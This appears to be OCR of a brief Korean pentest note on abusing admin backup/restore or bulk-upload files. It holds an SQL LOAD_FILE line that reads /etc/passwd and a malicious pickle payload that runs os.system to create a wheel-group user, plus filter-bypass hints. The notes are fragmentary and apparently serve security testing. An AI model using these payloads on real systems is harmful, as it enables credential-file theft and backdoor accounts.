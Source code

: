 # Integrity Verification  
관리자 페이지 내 편의성을 위한 한꺼번에 등록하거나
특정 설정을 백업/복구하는 기능이 있을 경우
해당 파일을 변조하여 서버 내 데이터 탈취 혹은 RCE 공격이 가능  
SELECT LOAD_FILE('/etc/passwd'); --  
(sql과 관련된 파일이 있을 경우)
--------------------------------------------------------------------
pickle 역직렬화 공격
objects = [SafeObject(), BadObject()]  
첫 검사 로직 우회  

malicious_pickle_data = b'(cos\nsystem\nS"useradd -m -p $(openssl passwd -1 secui) secuiTestAccount && usermod -aG wheel secuiTestAccount"\no.  
문자열로 삽입

(U\2idios\nsystem\n.  
유니코드 삽입
